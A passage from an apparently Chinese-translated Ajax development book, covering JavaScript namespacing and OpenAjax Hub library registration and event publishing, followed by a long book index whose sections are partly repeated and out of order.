        Event : {
            /**
             * @constructor
             */
            Event : function() { },
            /**
             * @constructor
             */
            Dispatcher : function() { }
        },
        Ajax : {
            /**
             * @constructor
             */
            Event : function() { },
            /**
             * @constructor
             */
            Request : function() { },
            /**
             * @constructor
             */
            RequestManager : function() { }
        }
    }
}
```


由于该库可以使用基础 Frozen 对象的不同部分来定义类，因此类名不再需要像之前那样使用前缀——例如 AjaxEvent 中的 "Ajax"。现在的类结构本身就形成了避免命名冲突所需的前缀，这使得代码更易于阅读和使用。

上一页的代码块与其说是展示源代码片段，不如说是展示了一个精简的对象结构，以说明在给定命名空间中的隔离性。该结构可以通过将核心对象定义为 `Frozen = { };` 并在其基础上构建，从而将其定义分散在多个 JavaScript 文件中，如下所示：

```javascript
Frozen.Ajax : {
    // 对象定义
}
/**
 * @constructor
 */
Frozen.Ajax.Event : function() {
    // 对象定义
}
```

这样，代码在保持可读性和可维护性的同时，不会影响命名空间。

每个类的实例化方式与之前相同，引用类时使用完整路径。不再是像下面这样扩展 EventDispatcher：

```javascript
function Night() { }
Night.prototype = new EventDispatcher;
Night.prototype.events = { fall : [] }
```

而是可以这样扩展 Dispatcher 类：

```javascript
function Night() { }
Night.prototype = new Frozen.Event.Dispatcher;
Night.prototype.events = { fall : [] }
```

这两个示例之间的显著区别不大，但在复杂应用中，后一种方式对全局命名空间的影响要小得多。工具包和应用库可能拥有数十个类、全局可访问的变量和函数，所有这些通常都存在于 DOM 的 window 层级中。通过将这些定义隔离在专门创建的唯一命名空间（或 JavaScript 所能提供的最接近命名空间的实现）对象中，多个库可以共存于同一接口中，而不会产生命名冲突的风险。

## 命名空间注册

防止命名冲突的另一个步骤是向 OpenAjax 注册全局命名空间。一旦注册，当前接口中的任何库都可以检查该库的存在；此功能提供了一种便捷的方式，可以选择性地使用其他库来提供原本不可用的功能。

注册实际上可以通过几种非排他性的方式进行。第一种也是最简单的方法是使用 OpenAjax Hub 的 `registerLibrary()` 方法。此方法可以将库的元数据注册到它所使用的任何命名空间。以下示例将 Frozen 的全局命名空间注册，包含指向工具包信息的 URL、当前版本以及一个可选对象（该对象可以包含任何值得保存在元数据中的额外信息）。在这种情况下，它为其他工具包提供了一种方式来确定此特定工具包的发布状态——一个 alpha 版本：

```javascript
/**
 * 如果 OpenAjax Hub 存在，则在其命名空间中注册该库。
 */
if (typeof OpenAjax != "undefined") {
    OpenAjax.hub.registerLibrary(
        "Frozen",
        "http://frozentoolkit.frozen-o.com",
        "0.2",
        {"state": "alpha"}
    );
}
```

现在，该库已向 OpenAjax 对象注册，其元数据存在于 Hub 的一个通用对象中，并以以下形式供所有已加载的库使用：

```json
{
    "prefix" : "Frozen",
    "namespaceURI" : "http://frozentoolkit.frozen-o.com",
    "version" : "0.2",
    "extraData" : { "state" : "alpha" }
}
```

现在，任何库中的任何代码都可以通过类似于以下代码的方式检查命名空间：

```javascript
if (typeof OpenAjax != "undefined"
        && OpenAjax.hub.libraries["Frozen"]) {
    // Frozen 工具包存在

    if (OpenAjax.hub.libraries["Frozen"].version == "0.2") {
        // 注册了版本 0.2
    } else {
        // 其他版本
    }
}
```

## 事件管理

现在，集成到同一接口的不同库可以显式调用彼此提供的函数并操作彼此的对象；然而，库集成仍然不具备将一个库的代码绑定到另一个库任意事件所需的完整事件驱动交互级别。为了建立这种连接，Hub 提供了一个集中式的全局方法来发布和订阅全局事件。

示例工具包有一个其他库可能感兴趣的全局事件，并且它们应该能够为此事件添加事件监听器：`Frozen.Ajax.RequestManager.abortAll` 方法。通过在 `abortAll` 方法中添加几行代码，当 OpenAjax Hub 可用时，该事件现在会通过 Hub 及其事件管理进行传递，并且即使该接口中不存在 Hub，添加的功能也不会造成任何损害：

```javascript
/**
 * 提供一种方法来取消所有活动和待处理的请求
 */
Frozen.Ajax.RequestManager.prototype.abortAll = function() {
    for (i = 0; i < this.requests.length; i++) {
        if (this.requests[i]) {
            this.requests[i].abort();
        }
    }
    // 准备 Event 实例以传递被中止请求的数量并分发事件
    var event = new Frozen.Ajax.Event();
    event.aborted = this.requests.length;
    this.dispatchEvent("abortall", event);

    // 如果可用，将事件发送到 OpenAjax Hub
    if (typeof OpenAjax != "undefined") {
        OpenAjax.hub.publish(
            // 使用完整路径为事件命名
            "Frozen.Ajax.abortall",
            event
        );
    }
}
```

事件的名称 `Frozen.Ajax.abortall` 遵循库的命名约定，因为 `Frozen.Ajax` 包对于 `abortall` 事件只有一种可能的含义。通过使用此全名，库可以通过以下任何方式监听该事件：

```javascript
// 订阅特定的 abortall 事件
OpenAjax.hub.subscribe(
    "Frozen.Ajax.abortall",
    ohMyGodTheyKilledAjax
);
// 订阅任何 Frozen.Ajax 直接子级的事件
OpenAjax.hub.subscribe(
    "Frozen.Ajax.*",
    logGlobalAjaxEvents
);
// 订阅任何 Frozen 工具包事件
OpenAjax.hub.subscribe(
    "Frozen.**",
    eavesdrop
);
```

第二个 `OpenAjax.hub.subscribe()` 调用使用 `*` 通配符，它将匹配按句点字符 (`.`) 分隔的标记化名称中的一级。这意味着添加为监听器的 `logGlobalAjaxEvents` 函数将被 "Frozen.Ajax.abortall" 事件触发，但不会被 "Frozen.Ajax.Request.abort" 事件触发，因为它比请求的层级多了一个标记。第三个调用使用 `**` 通配符，它匹配名称中任意深度的标记。添加为 "Frozen.**" 事件监听器的 `eavesdrop` 函数将被 "Frozen.Ajax.abortall"、"Frozen.Ajax.Request.abort" 和 "Frozen.unregister" 事件触发。

通过全局事件管理和注册，OpenAjax Hub 提供了轻量且简单的方式来集成多个库，以利用已完成的工作。OpenAjax 联盟已经开始编写方法和建议，以推广良好的开发实践和可扩展架构的方式来编写 Ajax 驱动的应用程序。该联盟也开始着手 Ajax 应用程序开发的其他方面，不仅包括通信 Hub 任务组，还包括 IDE 集成、安全和移动任务组。

# 索引

- **符号**
  - {} (花括号), 291
  - @ 标签, 279
  - ** 通配符, 339
- **A**
  - 缩写, 50
  - abbr 标签, 50
  - abort() 函数, 79
  - abortAll() 函数, 83, 338-339
  - 可访问性, 44
    - 设计
      - 易于定位的控件, 62-63
      - 高对比度设计, 59-60
      - 可缩放的界面, 60-62
    - 事件监听器, 56-58
    - 屏幕阅读器, 31
      - 与 Ajax 的兼容性, 53-54
      - 内容替换, 54-55
      - 表单验证, 55-56
    - 语义化标记, 30-31
    - 美国康复法案
      - 第 508 条, 51-53
    - WAI-ARIA (可访问的富 Internet 应用程序), 63-65
    - WCAG (网页内容可访问性指南), 44-45
      - 优先级 1 检查点, 45-46
      - 优先级 2 检查点, 47-50
      - 优先级 3 检查点, 50-51
  - 可访问的富 Internet 应用程序 (ARIA), 63-65
  - 首字母缩略词, 50
  - acronym 标签, 50
  - addEventListener() 函数, 70, 74, 83
  - addServer() 函数, 169
  - addslashes() 函数, 248-249
  - Advanced PHP Debugger (APD), 179-181
  - Ajax 设计模式, 87
  - AjaxEvent 类, 76
  - Ajax 实战, 330
  - Ajax 模式与最佳实践, 330
  - AjaxRequest.prototype.send() 函数, 261-262
  - AjaxRequest 类, 77-78
    - abort() 函数, 79
    - open() 函数, 79-80
    - send() 函数, 80-81
    - stateChanged() 函数, 78-79
    - urlEncodeObject() 函数, 81
  - AjaxRequestManager 类, 82-83

341


## A

**AjaxRequestManager** 对象，84-87

**AliasPicker()** 函数，75

**Alternative PHP Cache (APC)**，166-168

**替代文本**，45

**动画**
预测性动画，317-320
进度指示器
  *优点*，20
  *整合到界面设计中*，20-21
  *弹出对话框*，22
脉冲指示器
  *定义*，17
  *设计*，17
  *Throbber 类*，18-20

**apache_request_headers()** 函数，259-261

**Apache 网页服务器**，8

**APC (Alternative PHP Cache)**，166-168

**APCCache** 类，167

**APD (Advanced PHP Debugger)**，179-181

**apd_set_pprof_trace()** 函数，179-181

**API (应用程序编程接口)**
文档
  编码规范，289-293
  JSDoc，283-288
  phpDocumentor，275-283
编程指南，293-295
风格指南，295-296

**应用程序.** *参见* Web 应用程序

**架构.** *参见* 客户端架构；
  服务端架构

**askQuestion()** 函数，84-85

**assertDataSize()** 函数，273-274

**assertEquals()** 函数，134

**断言**，134-135

**异步性**，3

**艾特符号 (@)**，279

**attachEvent()** 函数，71

### 攻击

CSRF (跨站请求伪造)
  *检查来源 (Referrers)*，259-261
  *示例*，258-259
  *二次、随机令牌*，262-265
  *提交额外请求头*，261-262
SQL 注入，247-248
  *过滤*，249-251
  *魔术引号*，248-249
  *预处理语句*，251-252
XSS (跨站脚本)
  *为标记转义*，252-254
  *为来自 JavaScript 的标记转义*，255-256
  *为 URL 转义*，257-258

**授权**，265-266

## B

**badRangeRequested()** 函数，178

**带宽**
JSON，154-155
输出压缩，156-157
plist 格式，155
SOAP，154
XML，155

**BBC 网站**，111

**blink 标签**，12

**书籍推荐**，330

**识别瓶颈**，128-131

**花括号 ({})**，291

**浏览器**
控制台，112-113
调试工具，111
Firefox，116
  *Firebug*，118-120
  *Venkman*，120-122
  *Web Developer Extension*，117-118
Internet Explorer
  *Developer Toolbar*，113-115
  *事件处理*，70-71
  *Microsoft Script Debugger*，115-116
Opera
  *Web Accessibility Toolbar*，122-123
  *Web Developer Toolbar and Menu*，122
Safari，124-126
bruteForce() 函数，189

## C

缓存，160-161
  Alternative PHP Cache (APC)，166-168
  Cache 类，161
  filesystemCache 类，161-163
  加载，170-171
  memcache，168-170
  共享内存操作扩展 (shmop)，164-166

Cache 类，161，278-280
cachegrind 跟踪文件格式，182-185
calculatePosition() 函数，320
calculateRotation() 函数，318
calculateSpeed() 函数，319-320
canvas 标签，305-307，310
caption 标签，48
层叠样式表。参见 CSS
CentralController 类，223-225
CentralController 对象，264
将字符编码为数字实体等效形式，253-254
checkLine() 函数，131

类

AjaxEvent，76
AjaxRequest，77-78
  abort() 函数，79
  open() 函数，79-80
  send() 函数，80-81
  stateChanged() 函数，78-79
  urlEncodeObject() 函数，81

AjaxRequestManager，82-83
APCCache，167
Cache，161，278-280
CentralController，223-225
ColorFade，195-197
CustomEvent，73-75，133
Dispatcher，336
DVO，212-219
EventDispatcher，78
ExtendedSample，72
filesystemCache，161-163
Logger，29
Man，68
memcacheCache，169，278，281
Message，28
Messenger，28
PDOIterator，192-194
ProfilerController，101-104
RegistrationController，228-231
RenderingEngine，232-233
Sample，72
Session，219-221
shmopCache，164
TestDispatcher，135-136
Throbber，18-20
User，221-222
View，237，240
Wormhole，310-312，316
XHTMLRenderingEngine，240-241

客户端架构
  架构的优点，104-105
  事件驱动的应用程序开发，104-105

事件处理，68-69

AjaxRequestManager 对象，84-87
DOM，70
EventDispatcher 对象，73-76
Internet Explorer，70-71
JavaScript 对象概述，71-73
Man 类示例，68-69

符合 OpenAjax 标准，334-337

控制台 (浏览器)，112-113

整合资源，158-159

ContentLoaded() 函数，177

contentLoaded() 函数，176

contentNotModified() 函数，176-178

contentPartiallyLoaded() 函数，178

内容替换 (屏幕阅读器支持)，54-55

控制器 (MVC 模式)

嵌套控制器，222-231

XMLHttpRequest 对象，76-83

CentralController 类，223-225
loadController() 函数，227-228
RegistrationController 类，228-231

MVC (模型-视图-控制器) 模式，87-88

ProfilerController 类，101-104

ProfileEvent 对象

ProfilerController 类，101-104
ProfileView 对象，95-101
示例 XHTML 页面，93-94
UserProfile 对象，89-92
View 职责，92-93

控件，可访问性，62，63

craigslist.org，6

客户端代码，9

Crane, Dave，330

架构。参见客户端架构
调试，108，111
浏览器控制台，112-113
Firefox，116-122
Internet Explorer，113-116
JavaScript 性能分析，126-131
Opera，122-123
Safari，124-126
单元测试，132-144
验证，108-109
CSS Validator，110-111
Markup Validator，109-110
语义提取器，111

createAjaxRequest() 函数，82
createMessenger() 函数，310
createParallelUniverse() 函数，314
createUser() 函数，181，229
跨站请求伪造。参见 CSRF
跨站脚本。参见 XSS
CSRF (跨站请求伪造)
检查来源 (Referrers)，259-261
示例，258-259
二次、随机令牌，262-265
提交额外请求头，261-262
CSS (层叠样式表)，9
可访问性，48
hack，109
可用性，37，40-41
Validator，110-111
css-discuss wiki，331
CustomEvent 类，73-75，133

编码规范，文档化，289-293

ColorFade 类，195-197

命令

pprof2calltree，182
pprofp，179-180

压缩，输出压缩，156-157

## D

数据库，146
  未来开发的设计考虑，323
  索引，148-150
MySQL Database Server，8
规范化
  *第一范式*，147
  *第二范式*，147
  *第三范式*，148
查询，150-152
调试客户端代码，108
  浏览器控制台，112-113
  浏览器工具，111
  Firefox，116
    *Firebug*，118-120
    *Venkman*，120-122
    *Web Developer Extension*，117-118
  Internet Explorer
    *Developer Toolbar*，113-115
    *Microsoft Script Debugger*，115-116
  JavaScript 性能分析，126
    识别瓶颈，128-131
    输出，127
  Opera
    *Web Accessibility Toolbar*，122-123
    *Web Developer Toolbar and Menu*，122
  Safari，Drosera，124-126
  单元测试，132-133
    断言，134-135
    模拟对象，140-143
    测试示例，137-139
    测试设置，135-137
    测试套件，143-144
  验证，108-109
    *CSS Validator*，110-111
    *Markup Validator*，109-110
    *语义提取器*，111
delete() 函数，215
deleteCache() 函数，165，168-169
设计
  可访问性
    *易于定位的控件*，62-63
    *高对比度设计*，59-60
    *可缩放的界面*，60-62
  事件驱动的应用程序开发，104-105
  工厂模式，237，240-241
  未来开发，323-324
  多重接口，208-211
  MVC (模型-视图-控制器)
    模式，87-88
    *DBO 类*，212-215，218-219
    *嵌套控制器*，222-231
    *ProfileEvent 对象*，95
    *ProfilerController 类*，101-104
    *ProfileView 对象*，95-101
    渲染引擎，232-234
    示例 XHTML 页面，93-94
    *Session 类*，219-221
    模板，234-237
    *User 类*，221-222
    *UserProfile 对象*，89-92
    *View 职责*，92-93
  脉冲指示器，17
  可用性的重要性，322-323
detachEvent() 函数，71
Developer Toolbar (IE)，113-115
开发
  文档。*参见文档*
  未来开发，324

游戏，298

- *使用 canvas 标签进行双缓冲，305-307，310*
- *事件源 HTML5 元素，315-317*
- *预测性动画，317-320*
- *服务端逻辑，302-304*
- *流式响应，310-315*
- *验证，300-301*

对话框进度指示器，22

残障用户。*参见* 可访问性

Dispatcher 类，336

dispatchEvent() 函数，70，74

display() 函数，225，230，233

docBuilder (phpDocumentor)，276-277

文档

- 好处，272
  - *消除故障点，274-275*
  - *唤醒自己的记忆，272-274*
  - *减轻学习曲线，274*
- 编码规范，289-293
- JSDoc，283-288
- phpDocumentor，275-283
- 编程指南，293-295
- 风格指南，295-296

Dojo ShrinkSafe，159

DOM 事件处理，70

*DOM Level 2 Document Object Model Events Technical Report*，70

使用 canvas 标签进行双缓冲，305-307，310

drawShip() 函数，318

Drosera，124-126

DVO 类，212-219

## E

ECMA-262 标准 (脚注)，3

Ecma International (脚注)，3

ECMAScript，3

Eichorn, Joshua，330

eliminate() 函数，91

eliminateAjaxRequest() 函数，82

eliminated() 函数，91

encodeURIComponent() 函数，257

将字符编码为数字实体等效形式，253-254

错误消息，46

escape() 函数，241

escapeHTML() 函数，255

escapeIdentifier() 函数，218

escapeIdentifiers() 函数，218

escapeMarkup() 函数，254

escapeTable() 函数，218

转义 (XSS 攻击)

- 为标记转义，252-254
- 为来自 JavaScript 的标记转义，255-256
- 为 URL 转义，257-258

事件驱动的应用程序

- 开发，104-105

事件源 HTML5 元素，315-317

EventDispatcher() 函数，284-287

EventDispatcher 对象，73-78

事件处理，68-69

- DOM，70
- 事件监听器，56-58
- Internet Explorer，70-71
- JavaScript 对象，71-73
  - *AjaxRequestManager, 84-87*
  - *EventDispatcher, 73-76*
  - *XMLHttpRequest, 76-83*


## M

Man类示例，68-69

## O

OpenAjax，338-340

用户期望，16-17

EXPLAIN语句，150-152

ExtendedSample类，72

eXtensible Markup Language。参见XML

## F

工厂模式，237，240-241

fail()函数，134

fakeThread()函数，190

Fangs，53

Fawcett, Joe，330

反馈，重要性，17

Fiddler，119

filesystemCache类，161-163

过滤，249-251

filterRequest()函数，229

Firebug，12-13，118-120

Firefox，116

- Firebug，118-120
- Venkman，120-122
- Web Developer Extension，117-118

Fire Vox，54

第一范式，147

表单

- 无障碍访问，48-50
- 屏幕阅读器支持，55-56

Freedom Scientific Jaws，53

函数与方法

- abort()，79
- abortAll()，83，338-339
- addEventListener()，70，74，83
- addServer()，169
- addslashes()，248-249
- AjaxRequest.prototype.send()，261-262
- AliasPicker()，75
- apache_request_headers()，259-261
- apd_set_pprof_trace()，179-181
- askQuestion()，84-85
- assertDataSize()，273-274
- assertEquals()，134
- 断言函数 (JsUnit)，134
- attachEvent()，71
- badRangeRequested()，178
- bruteForce()，189
- calculatePosition()，320
- calculateRotation()，318
- calculateSpeed()，319-320
- checkLine()，131
- ContentLoaded()，177
- contentLoaded()，176
- contentNotModified()，176-178
- contentPartiallyLoaded()，178
- createAjaxRequest()，82
- createMessenger()，310
- createParallelUniverse()，314
- createUser()，181，229
- delete()，215
- deleteCache()，165，168-169
- detachEvent()，71
- dispatchEvent()，70，74
- display()，225，230，233
- drawShip()，318
- eliminate()，91
- eliminateAjaxRequest()，82
- eliminated()，91
- encodeURIComponent()，257
- escape()，241
- escapeHTML()，255
- escapeIdentifier()，218
- escapeIdentifiers()，218
- escapeMarkup()，254
- escapeTable()，218
- EventDispatcher()，284-287
- fail()，134
- fakeThread()，190
- filterRequest()，229
- generateToken()，263
- generateValidationToken()，226，263
- get()，213，220
- getCache()，165-169
- getDatabaseHandle()，225
- getHeader()，224
- getMethodFromRequest()，239
- getQueue()，28
- getRenderingEngine()，239
- getUserInfo()，230
- handleRequest()，223，228
- hashWithSalt()，210
- highlightElementAfterReplacement()，55
- hitTest()，302
- howManyRoadsMustAManWalkDown()，137-139
- htmlentities()，253
- include()，198-199
- init()，100-102
- insert()，216
- itClicked()，73
- json_encode()，255
- jsUnitTestSuite()，144
- load()，89，216，221
- loadController()，224，227，263
- loadDatabase()，225
- loadJavaScript()，198
- loadRenderingEngine()，239
- loadUser()，223
- loadValues()，90
- logGlobalAjaxEvents，339
- mb_encode_numericentity()，253
- md5()，209
- meetsFieldConstraints()，214
- MessageOutput()，24-25
- messageSent()，312
- Messenger()，25-26
- modelDeleted()，102
- modelLoaded()，102
- modelSaved()，102
- mysqli_real_escape_string()，250
- NameEnteredEvent()，75
- nextStep()，99
- Night()，336
- notifyOfElementChanges()，55-56
- ob_gzhandler()，157
- ob_start()，156
- open()，79-80
- parseJSON()，268
- passTheBuck()，224
- preg_replace()，255
- prepare()，311
- prepareElementForReplacement()，55，64
- presentAnswer()，84-85
- profile()，129
- profileEnd()，129
- rawurlencode()，257
- regenerate()，220
- registerLibrary()，337
- removeEventListener()，70，74，83，139
- replaceAndFocusElement()，55
- Rule()，305-307
- save()，90，215
- saved()，91
- select()，34-36，217
- send()，80-81
- sendHeaders()，234，240
- sendSnapshot()，312
- set()，209-210，213，220
- setAssoc()，214
- setCache()，164，167-169，280
- setContext()，232
- setElementText()，54，256
- setTemplate()，233
- setTemplatesDirName()，233
- setUp()，137
- setVariable()，233
- sha1()，209
- stateChanged()，78-79，172-174
- submit()，99
- suite()，144
- syncFromUI()，97
- syncToUI()，98
- tearDown()，137
- testCustomEvent()，133
- testEventDispatcher()，138-139
- Throbber()，18
- Universe()，294
- update()，215
- updateContent()，175-177
- updateUniverse()，314，317
- urlEncodeObject()，81，128-130，257-258
- useClass()，190
- validateHeader()，226
- validatePost()，226
- validateToken()，227
- viewDeleted()，103
- viewDisplayed()，103
- viewSaved()，103
- wakeUp()，68
- Watcher()，75
- WhatDoYouGetWhenYouMultiplySixByNine()，135-136，291-292

未来发展，在设计中考虑，323-324

## G

**游戏开发**，298

- 使用canvas标签进行双缓冲，305-307，310
- event-source HTML5元素，315-317
- 预测性动画，317-320
- 服务器端逻辑，302-304
- 流式响应，310-315
- 验证，300-301

**generateToken()函数**，263

**generateValidationToken()函数**，226，263

**get()函数**，213，220

**getCache()函数**，165-169，280

**getDatabaseHandle()函数**，225

**getHeader()函数**，224

**getMethodFromRequest()函数**，239

**getQueue()函数**，28

**getRenderingEngine()函数**，239

**getUserInfo()函数**，230

**Gross, Christian**，330

## H

**hacks (CSS)**，109

**handleRequest()函数**，223，228

**hashWithSalt()函数**，210

**headers (HTTP/1.1)**

- If-Modified-Since，174-176
- Range，176-178
- 提交附加头信息，261-262

**高对比度设计**，59-60

**highlightElementAfterReplacement()函数**，55

**hitTest()函数**，302

**howManyRoadsMustAManWalkDown()函数**，137-139

HTML标签，12

HTML5 event-source元素，315-317

htmlentities()函数，253

**HTTP**

- 安全问题，245-246

**HTTP/1.1规范**

- If-Modified-Since头信息，174-176
- Range头信息，176-178
- stateChanged()函数，171-174

**HTTPS**，244

- 明文HTTP安全问题，245-246
- 性能损失，247

## I

**IE。** *参见* Internet Explorer

If-Modified-Since头信息，174-176

**图像**

- 替代文本，45
- 进度指示器
    - 优点，20
    - 整合到用户界面设计中，20-21
    - 弹出对话框，22
- 动态指示器
    - 定义，17
    - 设计，17
    - Throbber类，18-20

**include()函数**，198-199

代码缩进，292

索引，148-150

**指示器**

- 重要性，17
- 内联消息，22-23
    - 客户端消息队列，25-26
    - 客户端输出管理，23-25
    - 示例，23
    - 服务器端消息队列，27-30
    - 服务器端输出管理，26-27
- 进度指示器
    - 优点，20
    - 整合到用户界面设计中，20-21
    - 弹出对话框，22
- 动态指示器
    - 定义，17
    - 设计，17
    - Throbber类，18-20

**init()函数**，100-102

**内联消息**，22-23

- 客户端消息队列，25-26
- 客户端输出管理，23-25
- 示例，23
- 服务器端消息队列，27-30
- 服务器端输出管理，26-27

**insert()函数**，216

**接口**

- 为未来发展考虑的设计，323
- 延迟加载，198-199
- 模块化，195-198
- 多接口，为多接口设计应用程序，208-211
- 可缩放界面，60-62

**内部开发文档**，288

- 编码标准，289-293
- 编程指南，293-295
- 风格指南，295-296

**Internet Explorer**

- 开发者工具栏，113-115
- 事件处理，70-71
- Microsoft Script Debugger，115-116

**itClicked()函数**，73

## J

JavaScript，3-4

- 类。*参见* 类
- 为标记转义，255-256
- 事件处理，71-73
    - AjaxRequestManager对象，84-87
    - EventDispatcher对象，73-76
    - XMLHttpRequest对象，76-83
- JsUnit，132-133
    - 断言，134-135
    - 模拟对象，140-143
    - 测试示例，137-139
    - 测试设置，135-137
    - 测试套件，143-144
- 性能分析，126
    - 瓶颈识别，128-131
    - 输出，127
- 资源整合，158-159
- Unicode支持，267
- 易用性，37，40-41

JavaScript Object Notation。*参见* JSON

Jaws，53

JSDoc，283-288

JSON (JavaScript Object Notation)，5

- 带宽使用，154-155
- 安全性，267-269

json_encode()函数，255

jsUnitTestSuite()函数，144

## K-L

KCacheGrind，182-185

Koch, Peter-Paul，331

延迟加载，198-199

延迟

- 请求排队，160
- 资源整合，158-159

学习曲线，通过文档降低，274

监听器，56

load()函数，89，216，221

loadController()函数，224，227，263

loadDatabase()函数，225

加载

- 缓存类，170-171
- 函数
    - load()，89，216，221
    - loadController()，224，227，263
    - loadDatabase()，225
    - loadJavaScript()，198
    - loadRenderingEngine()，239
    - loadUser()，223
    - loadValues()，90
- 延迟加载，198-199

loadJavaScript()函数，198

loadRenderingEngine()函数，239

loadUser()函数，223

loadValues()函数，90

Logger类，29

logGlobalAjaxEvents函数，339

亮度对比度，59

Lynx，53

## M

魔术引号，248-249

Man类，68

Markup Validator，109-110

marquee标签，12

MathML，47

mb_encode_numericentity()函数，253

McPeak, Jeremy，330

md5()函数，209

meetsFieldConstraints()函数，214

memcache，168-170


# 索引

memcacheCache 类，169、278、281

内存

缓存，160-161

Alternative PHP Cache (APC)，166-168

Cache 类，161

类加载，170-171

filesystemCache 类，161-163

memcache，168-170

共享内存操作扩展 (shmop)，164-166

Web 应用程序的可扩展性，191-194

Message 类，28

MessageOutput() 函数，24-25

消息

错误消息：无障碍性，46

内联消息，22-23

客户端消息队列，25-26

客户端输出管理，23-25

示例，23

服务器端消息队列，27-30

服务器端输出管理，26-27

messageSent() 函数，312

Messenger() 函数，25-26

Messenger 类，28

方法。*参见* 函数和方法

Microsoft Script Debugger (IE)，115-116

模拟对象，140-143

模型-视图-控制器模式。*参见* MVC 模式

modelDeleted() 函数，102

modelLoaded() 函数，102

模型 (MVC 模式)

DVO 类，212-215、218-219

ProfileEvent 对象，95

ProfileView 对象，95-101

Session 类，219-221

User 类，221-222

UserProfile 对象，89-92

modelSaved() 函数，102

模块化，195-198

Mozilla

开发者中心，331

Spidermonkey，3

多人游戏

事件源 HTML5 元素，315-317

预测性动画，317-320

流式响应，310-315

MVC (模型-视图-控制器)

模式，87-88

DBO 类，212-215、218-219

嵌套控制器，222-231

CentralController 类，223-225

loadController() 函数，227-228

RegistrationController 类，228-231

ProfileEvent 对象，95

ProfilerController 类，101-104

ProfileView 对象，95-101

渲染引擎，232-234

示例 XHTML 页面，93-94

Session 类，219-221

模板，234-237

User 类，221-222

UserProfile 对象，89-92

视图职责，92-93

MySQL

数据库服务器，8

EXPLAIN 语句，150-152

mysqli_real_escape_string() 函数，250

## N

**NameEnteredEvent() 函数**，75

**命名空间，向 OpenAjax 注册**，337-338

**嵌套控制器**，222-231

- CentralController 类，223-225
- loadController() 函数，227-228
- RegistrationController 类，228-231

**nextStep() 函数**，99

**Night() 函数**，336

**规范化**

- 第一范式，147
- 第二范式，147
- 第三范式，148

**notifyOfElementChanges() 函数**，55-56

**数字，将字符编码为数字实体等效形式**，253-254

## O

**ob_gzhandler() 函数**，157

**ob_start() 函数**，156

**对象**

- AjaxRequestManager，84-87
- CentralController，264
- EventDispatcher，73-76
- 事件处理，71-73
  - AjaxRequestManager，84-87
  - EventDispatcher，73-76
  - XMLHttpRequest，76-83
- 模拟对象，140-143
- PDO (PHP 数据对象)，251-252
- ProfileEvent，95
- ProfileView，95-101
- UserProfile 对象，89-92

**XMLHttpRequest**，76-83

- abort() 函数，79
- AjaxEvent 类，76
- AjaxRequest 类，77-78
- AjaxRequestManager 类，82-83
- EventDispatcher 类，78
- 模拟对象，140-143
- open() 函数，79-80
- send() 函数，80-81
- stateChanged() 函数，78-79
- urlEncodeObject() 函数，81

**open() 函数**，79-80

**Open Ajax**

- 一致性，334-337
- 事件管理，338-340
- 命名空间注册，337-338
- OpenAjax 联盟，7、334
- OpenAjax Hub，334

**OpenAjax 联盟**，7、334

**OpenAjax Hub**，334

**Opera**

- 控制台，112
- Web 无障碍性工具栏，122-123
- Web 开发者工具栏和菜单，122

**性能优化。*参见* 性能优化**

**输出压缩**，156-157

## P

**@param 标签**，280

**parseJSON() 函数**，268

**解析语义化标记**，34-37

**Pascarello, Eric**，330

**passTheBuck() 函数**，224

**$password_hash 变量**，248

**密码，存储**，248

PDO (PHP 数据对象)，251-252

PDOIterator 类，192-194

性能优化，146

带宽

- JSON，154-155
- 输出压缩，156-157
- plist 格式，155
- SOAP，154
- XML，155

缓存，160-161

- Alternative PHP Cache (APC)，166-168
- Cache 类，161
- 类加载，170-171
- filesystemCache 类，161-163
- memcache，168-170
- 共享内存操作扩展 (shmop)，164-166

数据库，146

- 索引，148-150
- 规范化，147-148
- 查询，150-152

HTTP/1.1 规范

- If-Modified-Since 头，174-176
- Range 头，176-178
- stateChanged() 函数，171-174

HTTPS，247

延迟，158-159

PHP 性能分析

- Advanced PHP Debugger (APD)，179-181
- Xdebug，182-185

Perl，283

PHP，8

- 字符串字节（脚注），8
- 函数。*参见* 函数
- PDO (PHP 数据对象)，251-252

性能分析

- Advanced PHP Debugger (APD)，179-181
- Xdebug，182-185

PHP 数据对象 (PDO)，251-252

phpdoc 脚本 (phpDocumentor)，276-277

phpDocumentor，275-283

plist 格式，155

Poe, Edgar Allan，12

pprof2calltree 工具，182

pprofp 命令，179-180

预测性动画，317-320

preg_replace() 函数，255

prepare() 函数，311

预处理语句，251-252

prepareElementForReplacement() 函数，55、64

presentAnswer() 函数，84-85

优先级 1 检查点 (WCAG)，45-46

优先级 2 检查点 (WCAG)，47-50

优先级 3 检查点 (WCAG)，50-51

处理器使用率，188-191

**Professional Ajax**，330

profile() 函数，129

profileEnd() 函数，129

ProfileEvent 对象，95

ProfilerController 类，101-104

ProfileView 对象，95-101

性能分析

JavaScript，126

- 瓶颈，识别，128-131
- 输出，127

PHP

- Advanced PHP Debugger (APD)，179-181
- Xdebug，182-185

编程指南，293-295

**进度指示器**

- 优点，20
- 融入用户界面设计，20-21
- 弹出对话框，22

removeEventListener() 函数，70、74、83、139

**RenderingEngine 类**，232-233

渲染引擎，232-234

replaceAndFocusElement() 函数，55

替换内容（屏幕阅读器支持），54-55

请求，队列，160

@require 标签，286

资源整合，158-159

**Q**

**资源**

- 书籍，330
- 网站，330-331

响应，流式，310-315

@return 标签，280

Rule() 函数，305-307

**QA 工具箱**，109

q 标签，48

查询，150-152

队列，请求队列，160

**Quirks 模式**，331

引号，魔术引号，248

**R**

**S**

彩虹表，248

**Range 头**，176-178

原始文本，4

rawurlencode() 函数，257

语义化标记的可读性，33-34

阅读器，屏幕

- 与 Ajax 的兼容性，53-54
- 内容替换，54-55
- 表单验证，55-56

实时多人游戏

- 事件源 HTML5 元素，315-317
- 预测性动画，317-320
- 流式响应，310-315

**引用来源，检查**，259-261

regenerate() 函数，220

登录时重新生成会话 ID 令牌，246

注册

- 命名空间向 OpenAjax，337-338
- 用户，234-236

registerLibrary() 方法，337

**RegistrationController 类**，228-231

注册界面，14-15

**Safari**

- 控制台，113
- Drosera，124-126

盐值，248

**Sample 类**，72

save() 函数，90、215

saved() 函数，91

**可扩展性**

- 延迟加载，198-199
- 内存使用，191-194
- 模块化，195-198
- 处理器使用，188-191

**模式（数据库）**，146

- 索引，148-150
- 规范化
  - 第一范式，147
  - 第二范式，147
  - 第三范式，148
- 查询，150-152

屏幕放大器，61

屏幕阅读器，31

- 与 Ajax 的兼容性，53-54
- 内容替换，54-55
- 表单验证，55-56

脚本编写

- 客户端脚本，9
- phpdoc (phpDocumentor)，276-277
- 服务器端脚本，8

第二范式，147

